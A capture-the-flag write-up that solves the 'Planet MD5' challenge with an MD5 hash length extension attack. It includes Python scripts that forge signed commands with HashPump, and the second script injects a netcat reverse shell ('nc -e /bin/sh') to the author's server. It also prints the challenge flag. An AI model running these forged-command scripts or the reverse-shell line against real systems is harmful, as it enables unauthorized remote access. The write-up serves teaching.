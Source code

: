 ```yaml
---
layout: post
title: Planet MD5 - nn9ed
author: devploit
item_image: https://i.imgur.com/Ao2pJ8H.png
tags: ctf nn9ed navajanegra crypto web
---
```


### 0x01 Challenge:

**Level:** Medium

**Description:**

>**Planet MD5**
>
>Escape the sandbox and read the flag.
>http://planet-md5.nn9ed.ka0labs.org.
>author: ka0labs

### 0x02 Write-up:

We start by visiting the URL provided.

![Branching](https://i.imgur.com/Ao2pJ8H.png)

As we can see, we have access to a console, which seems to only accept the execution of three commands:

```
telnetd> help
Help:
 - ls
 - id
 - uname
```

If we check the request made when executing a command, we can see that each one has an associated signature.

![Branching](https://i.imgur.com/czT5ETO.png)

After hours of searching for exploitation options, hash break attempts and so on, I found this vulnerability.

--

**Hash Lenght Extension Attack**

In cryptography and computer security, a length extension attack is a type of attack where an attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1. Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

--

It completely matched what we needed to do, so I looked for some tool and set about it. In this case I used [Hashpump](https://github.com/bwall/HashPump).

The first use we are going to give the tool is to achieve the key length. For this case I did the following script:

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '|ls' -k "

for x in range(1, 60):
    # Append the key length to the command and get the output from execution
    ncmd = cmd + str(x)
    out = check_output(ncmd, shell=True).split("\n")

    newParams = out[1].strip()
    newSig = out[0].strip()

    # URL encode the padding
    m = re.search(r"id(.+?)ls", newParams)
    items = m.group(1).split('\\')
    for item in items:
        newParams = newParams.replace('\\x'+item, '%'+item)

    viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

    r = requests.get(viewUrl)
    if r.text.strip() == 'index.php':
        print 'New URL params: ' + newParams
        print 'New full URL:   ' + viewUrl
        print 'Key length:     ' + str(x) + ' -> ' + r.text.strip()
```

The use of it is to let us know when we have managed to execute the 'ls' command attached to the 'id' command itself. So when it finds an 'index.php' file it notifies us with the complete URL and the key length as we see in the following image.

![Branching](https://i.imgur.com/8rmdyhj.png)

Visiting the full URL we see the 'ls' command execution achieved.

![Branching](https://i.imgur.com/bodn1pZ.png)

Seeing that it is vulnerable and knowing the length of the key, I modify the script to throw a reverse shell on a server.

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '| nc -e /bin/sh $SERVER_IP 7778' -k "

# Append the key length to the command and get the output from execution
x = 15
ncmd = cmd + str(x)
out = check_output(ncmd, shell=True).split("\n")

newParams = out[1].strip()
newSig = out[0].strip()

# URL encode the padding
m = re.search(r"id(.+?)7778", newParams)
items = m.group(1).split('\\')
for item in items:
    newParams = newParams.replace('\\x'+item, '%'+item)

viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

r = requests.get(viewUrl)
print 'New URL params: ' + newParams
print 'New full URL:   ' + viewUrl
print 'Key length:     ' + str(x)
```

We execute it, we visit the complete URL that it gives us and we verify that we receive reverse shell on our server.

![Branching](https://i.imgur.com/vCWLrl6.png)

![Branching](https://i.imgur.com/pbgwWff.png)

Finally we have shell on the server. It would only be to find the flag and that's it.

![Branching](https://i.imgur.com/waZW6iu.png)

`Flag: nn9ed{j3t_ext3nd3r_4d}`
